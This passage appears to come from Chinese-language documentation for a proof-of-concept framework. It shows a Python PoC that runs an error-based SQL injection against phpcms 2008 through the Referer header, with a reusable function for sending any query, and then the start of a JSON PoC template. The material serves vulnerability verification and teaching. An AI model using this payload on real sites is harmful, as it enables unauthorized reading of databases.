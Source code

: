 ```

    def _verify(self):
        result = {}
        vulurl = urlparse.urljoin(self.url, '/data/js.php?id=1')
        payload = "SELECT md5(1)"
        resp = self.do_sqlinji(payload)
        if resp and 'c4ca4238a0b923820dcc509a6f75849b' in resp:
            result['VerifyInfo'] = {}
            result['VerifyInfo']['URL'] = vulurl

        return self.parse_attack(result)

    def do_sqlinji(self, payload_sql):
        # 封装每次请求, 只需要传入 SQL 语句自动封装 payload.
        vulurl = urlparse.urljoin(self.url, '/data/js.php?id=1')
        payload = "1', (SELECT 1 FROM (select count(*),concat(floor(rand(0)*2),(%s))a from information_schema.tables group by a)b), '0')#" % payload_sql
        head = {
            'Referer': payload
        }
        resp = req.get(vulurl, headers=head)
        if resp.status_code == 200:
            match_result = re.search(r'Duplicate entry \'1(.+)\' for key', resp.content, re.I | re.M)
            if match_result:
                return match_result.group(1)
        return None

    def parse_attack(self, result):
        #封装输出
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('Internet nothing returned')
        return output


register(TestPOC)

```

<h3 id="jsonexample">PoC json代码示例</h3>  

[json 代码模版请点击这里查看](./template.json)

[phpcms_2008_/ads/include/ads_place.class.php_sql注入漏洞](http://www.sebug.net/vuldb/ssvid-62274) PoC:

由于json不支持注释,所以具体字段意义请参考上文，涉及到的靶场请自行根据Sebug漏洞详情搭建。


```

{
    "pocInfo": {
        "vulID": "62274",
        "version":"1",
        "vulDate":"2011-11-21",
        "createDate":"2015-09-15",
        "updateDate":"2015-09-15",
        "name": "phpcms_2008_ads_place.class.php_sql-inj",
        "protocol": "http",
        "vulType": "SQL Injection",
        "author": "Medici.Yan",
        "references": ["http://www.sebug.net/vuldb/ssvid-62274"],
        "appName": "phpcms",
```